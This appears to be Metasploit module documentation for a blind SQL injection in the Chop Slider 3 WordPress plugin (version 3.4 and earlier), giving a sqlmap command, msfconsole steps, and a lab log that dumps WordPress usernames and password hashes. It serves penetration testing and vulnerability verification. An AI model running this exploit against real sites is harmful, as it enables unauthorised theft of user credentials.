 ## Vulnerable Application

The iDangero.us Chop Slider 3 WordPress plugin 3.4 and prior
contains a blind SQL injection in the `id` parameter of the
`get_script/index.php` page.  The injection is passed through `GET`
parameters, and thus must be encoded, and magic_quotes is applied at the server.

The plugin can be downloaded from
[github](https://github.com/idangerous/Plugins/blob/master/Chop%20Slider%203/Chop%20Slider%203%20Wordpress/Wordpress_ChopSlider_3_4.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://local.target/wp-content/plugins/chopslider/get_script/index.php?id=1111111111' --level=5 --risk=3 --technique=B
```

## Verification Steps

1. Install the plugin and activate it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_chopslider_id_sqli`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of usernames and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### iDangero.us Chop Slider 3.4 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (chopslider.rb)> use auxiliary/scanner/http/wp_chopslider_id_sqli
resource (chopslider.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (chopslider.rb)> set verbose true
verbose => true
resource (chopslider.rb)> set count 3
count => 3
resource (chopslider.rb)> run
[*] Version detected: 3.4
[+] Vulnerable version of ChopSlider3 detected
[*] Enumerating Usernames
[*] {SQLi} Executing (select group_concat(qlJEzvIJY) from (select cast(ifnull(user_login,'') as binary) qlJEzvIJY from wp_users limit 3) DSKc)
[*] {SQLi} Time-based injection: expecting output of length 19
[*] Enumerating Password Hashes
[*] {SQLi} Executing (select group_concat(NtxL) from (select cast(ifnull(user_pass,'') as binary) NtxL from wp_users limit 3) YztNPLK)
[*] {SQLi} Time-based injection: expecting output of length 104
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/
 editor      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wp_chopslider_id_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           editor  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
